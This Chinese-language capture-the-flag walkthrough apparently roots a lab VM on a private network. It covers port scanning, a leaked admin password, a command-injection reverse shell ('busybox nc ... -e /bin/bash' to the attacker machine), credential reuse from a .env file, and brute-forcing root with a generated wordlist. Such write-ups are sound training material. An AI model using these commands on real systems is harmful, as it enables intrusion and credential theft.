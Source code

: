 # 一、信息收集

## 1. 主机发现

首先，使用 `arp-scan` 在 `192.168.205.0/24` 网段中发现目标主机。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.142 08:00:27:0f:75:63       PCS Systemtechnik GmbH
...
```

确认目标主机IP地址为 `192.168.205.142`。

## 2. 端口扫描与服务探测

使用 `nmap` 对目标主机进行全端口扫描，识别开放的服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p- 192.168.205.142
...
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
666/tcp   open  doom
9443/tcp  open  tungsten-https
9455/tcp  open  unknown
65443/tcp open  unknown
...
```

扫描发现多个开放端口。其中 `9455` 端口运行着一个未知的“Admin Service”，这通常是值得优先探索的突破口。使用 `netcat` 连接该服务进行交互。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc 192.168.205.142 9455
Welcome to Admin Service
Type 'help' for available commands
Available commands:
  help          - Show this help
  whoami        - Show current user
  system-status - Show system status
  exit          - Disconnect
```

在交互式Shell中输入 `help`，发现一个隐藏的命令 `show-admin-pass`。

```bash
help
Available commands:
  help          - Show this help
  whoami        - Show current user
  system-status - Show system status
  show-admin-pass - Show admin password
  exit          - Disconnect
show-admin-pass
Admin Password: 5jRrRnE9
```

成功获取到一个管理员密码 `5jRrRnE9`。根据端口扫描结果，`9443` 端口运行着一个雷池WAF，推测该密码是WAF的登录凭证。

# 二、Web渗透与立足点

## 1. 绕过WAF防护

访问 `https://192.168.205.142:9443`，进入雷池WAF的登录页面。使用用户名 `admin` 和上一步获取的密码 `5jRrRnE9` 成功登录。

在WAF的管理后台中，发现其防护了一个Web应用，但该应用当前处于“维护模式”。这是导致直接访问80端口页面异常的原因。

我们将防护模式从“维护”切换为“观察”，使Web应用恢复正常访问。

![image-20250813213042337](http://7r1UMPHK.github.io/image/20250813213325461.webp)

## 2. 命令注入与Getshell

重新访问 `http://192.168.205.142`，页面显示为一个服务器状态检查工具。页面中存在一个“自定义命令”的输入点，暗示可能存在命令注入漏洞。

我们在此处直接构造反弹Shell的Payload，并用 `nc` 在Kali攻击机上进行监听。

* **Payload**: `busybox nc 192.168.205.128 8888 -e /bin/bash`

* **Kali监听**:

  ```bash
  ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
  └─$ nc -lvnp 8888
  listening on [any] 8888 ...
  connect to [192.168.205.128] from (UNKNOWN) [192.168.205.142] 37450
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

成功接收到反弹Shell，获得 `www-data` 用户权限。

* **稳定Shell:**

  ```bash
  script /dev/null -c bash
  Ctrl+Z
  stty raw -echo; fg
  reset xterm
  export TERM=xterm
  export SHELL=/bin/bash
  stty rows 24 columns 80
  ```

# 三、权限提升

## 1. 横向移动 (www-data -> lucky)

在 `www-data` 的Shell中进行信息收集，在 `/data/safeline/` 目录下发现一个敏感的环境变量配置文件 `.env`。

```bash
www-data@Cloud:/tmp$ cat /data/safeline/.env
SAFELINE_DIR=/data/safeline
POSTGRES_PASSWORD=vivrdIDj6fhNJIRdnitL
MGT_PORT=9443
RELEASE=
CHANNEL=
REGION=
IMAGE_PREFIX=swr.cn-east-3.myhuaweicloud.com/chaitin-safeline
IMAGE_TAG=9.2.1
SUBNET_PREFIX=192.168.0
ARCH_SUFFIX=
```

该文件泄露了一个PostgreSQL数据库密码 `vivrdIDj6fhNJIRdnitL`。考虑到密码复用的可能性，尝试使用此密码切换到系统中的其他用户。

```bash
www-data@Cloud:/tmp$ su lucky
Password: vivrdIDj6fhNJIRdnitL
lucky@Cloud:/home$ id
uid=1000(lucky) gid=1000(lucky) groups=1000(lucky)
```

成功使用该密码切换到 `lucky` 用户，完成了横向移动。

## 2. 提权至root (lucky -> root)

在 `lucky` 用户的家目录下，发现一个名为 `.hint` 的提示文件。

```bash
lucky@Cloud:~$ cat .hint
root password length is 4.
Regex is : 'r..o'
```

提示信息给出了 `root` 密码的格式：长度为4，且符合正则表达式 `'r..o'`。我们可以据此生成一个密码字典，然后进行爆破。

1. **生成字典**：

   ```bash
   lucky@Cloud:~$ for a in {a..z}; do for b in {a..z}; do echo "r${a}${b}o"; done; done > /tmp/pass
   ```

2. **暴力破解**：
   使用 `su` 爆破脚本（如 `suForce`）和生成的字典对 `root` 账户进行密码猜解。

   ```bash
   lucky@Cloud:/tmp$ ./suForce -u root -w pass
   ...
   💥 Password | rooo
   ...
   ```

   成功破解出 `root` 用户的密码为 `rooo`。

3. **切换至root**：

   ```bash
   lucky@Cloud:/tmp$ su -
   Password: rooo
   root@Cloud:~# id
   uid=0(root) gid=0(root) groups=0(root)
   ```

   成功获得root权限。

# 四、获取Flag

现在拥有了root权限，可以读取所有的Flag。

```bash
root@Cloud:~# cat /root/root.txt
flag{root-74cc1c60799e0a786ac7094b532f01b1}

root@Cloud:~# cat /home/lucky/user.txt
flag{user-72cfd272ace172fa35026445fbef9b03}
```

所有Flag均已找到，渗透测试完成。